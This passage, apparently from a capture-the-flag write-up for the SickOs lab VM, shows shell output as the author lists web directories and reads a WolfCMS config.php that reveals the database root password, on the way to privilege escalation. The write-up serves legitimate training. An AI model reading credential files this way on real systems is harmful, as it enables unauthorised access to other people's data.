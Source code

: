 **Post Exploitation**

In this section, we are going to escalating privilege from www-data to root privilege because the flag in the root directory as mentioned in instruction:
```
Get /root/a0216ea4d51874464078c618298b1367.txt
```

Searching for interesting file and credential in `/var/www/`. 

```bash
www-data@SickOs:/var/www$ cd /var/www
cd /var/www
www-data@SickOs:/var/www$ ls -lah
ls -lah
total 24K
drwxrwxrwx  3 root root 4.0K Dec  6  2015 .
drwxr-xr-x 13 root root 4.0K Dec  6  2015 ..
-rwxrwxrwx  1 root root  109 Dec  5  2015 connect.py
-rw-r--r--  1 root root   21 Dec  5  2015 index.php
-rw-r--r--  1 root root   45 Dec  5  2015 robots.txt
drwxr-xr-x  5 root root 4.0K Dec  5  2015 wolfcms
www-data@SickOs:/var/www$ 
```

```bash
www-data@SickOs:/var/www$ cd wolfcms
cd wolfcms
www-data@SickOs:/var/www/wolfcms$ ls -lah
ls -lah
total 52K
drwxr-xr-x 5 root root 4.0K Dec  5  2015 .
drwxrwxrwx 3 root root 4.0K Dec  6  2015 ..
-rwxr-xr-x 1 root root  950 Dec  5  2015 .htaccess
-rwxrwxrwx 1 root root 4.0K Dec  5  2015 CONTRIBUTING.md
-rwxrwxrwx 1 root root 2.4K Dec  5  2015 README.md
-rwxrwxrwx 1 root root  403 Dec  5  2015 composer.json
-rwxrwxrwx 1 root root 3.0K Dec  5  2015 config.php
drwxrwxrwx 2 root root 4.0K Dec  5  2015 docs
-rwxrwxrwx 1 root root  894 Dec  5  2015 favicon.ico
-rwxrwxrwx 1 root root 6.7K Dec  5  2015 index.php
drwxrwxrwx 4 root root 4.0K Dec  6  2015 public
-rwxrwxrwx 1 root root    0 Dec  5  2015 robots.txt
drwxrwxrwx 7 root root 4.0K Dec  5  2015 wolf
www-data@SickOs:/var/www/wolfcms$ 
```

Trying to read wolfcms `config.php` and it showing us database connection for the website.

```php
www-data@SickOs:/var/www/wolfcms$ cat config.php
cat config.php
<?php 

// Database information:
// for SQLite, use sqlite:/tmp/wolf.db (SQLite 3)
// The path can only be absolute path or :memory:
// For more info look at: www.php.net/pdo

// Database settings:
define('DB_DSN', 'mysql:dbname=wolf;host=localhost;port=3306');
define('DB_USER', 'root');
define('DB_PASS', 'john@123');
define('TABLE_PREFIX', '');

// Should Wolf produce PHP error messages for debugging?
define('DEBUG', false);

```
